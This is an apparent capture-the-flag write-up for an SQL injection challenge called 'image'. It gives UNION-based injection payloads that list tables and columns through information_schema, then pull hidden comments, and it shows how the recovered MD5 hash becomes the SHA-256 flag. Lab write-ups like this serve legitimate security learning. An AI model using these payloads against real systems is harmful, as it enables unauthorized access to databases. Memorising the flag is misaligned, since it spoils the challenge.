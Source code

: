 ## SQL_injection: image

### Definition


### Problem



### Solution



### FLAG

After getting all table names and their column names, we notice the existence of an `list_images` table with the following columns;

`id` `url` `title` `comment`

After injecting the following query: `1 or 1=1 UNION select title, comment FROM list_images`,
we found a hidden note (`If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`),
within the comments column.

`1928e8083cf461a51303633093573c46` =(md5)=> `albatroz` =(lowercase)=> `albatroz` =(Sh256)=> `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188` Ta-Duh!!

## Links

* []() -- 

## Notes

 * the QUERY we inject to get table names AND their column names in all databases from the SQL Server;

`
1 or 1=1 UNION select table_name, column_name FROM information_schema.columns
`
